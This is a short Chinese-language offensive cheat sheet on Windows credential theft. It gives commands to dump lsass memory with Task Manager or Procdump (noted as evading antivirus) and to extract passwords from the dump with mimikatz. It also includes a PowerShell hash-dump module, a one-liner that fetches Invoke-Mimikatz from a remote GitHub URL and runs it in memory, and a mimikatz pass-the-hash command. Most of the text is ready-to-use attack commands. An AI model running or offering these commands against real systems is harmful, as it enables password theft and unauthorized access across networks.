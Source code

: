 ##### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E7%A6%BB%E7%BA%BF%E8%AF%BB%E5%8F%96-lassdmp-%E6%96%87%E4%BB%B6)使用 mimikatz 离线读取 lass.dmp 文件

###### [](#%E5%AF%BC%E5%87%BA-lassdmp-%E6%96%87%E4%BB%B6)导出 lass.dmp 文件

-   使用任务管理器导出 lsass.dmp 文件

任务管理器找到 `lsass.exe` 进程，右键，选择“Create Dump File”选项

-   使用 Procdump 导出 lsass.dmp 文件

微软官方发布的工具，免杀

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>Procdump.exe -accepteula -ma lsass.exe lsass.dmp<br>``` |

###### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E5%AF%BC%E5%87%BA-lsassdmp-%E6%96%87%E4%BB%B6%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81%E5%80%BC)使用 mimikatz 导出 lsass.dmp 文件中的密码值

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>sekurlsa::mimidump lsass.dmp<br>sekurlsa::logonpasswords full<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E5%AF%B9%E6%95%A3%E5%88%97%E5%80%BC%E8%BF%9B%E8%A1%8C-dump-%E6%93%8D%E4%BD%9C)使用 Powershell 对散列值进行 Dump 操作

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Import-Module .\Get-PassHashes.ps1<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BD-mimikatz-%E6%8A%93%E5%8F%96%E6%95%A3%E5%88%97%E5%80%BC%E5%92%8C%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81)使用 Powershell 远程加载 mimikatz 抓取散列值和明文密码

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PwoerSploit/master/Exfilration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"<br>``` |

## [](#%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92%E6%94%BB%E5%87%BB)哈希传递攻击

### [](#%E4%BD%BF%E7%94%A8-ntlm-hash-%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 NTLM Hash 进行哈希传递

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /ntlm:[NTLM]"<br>``` |
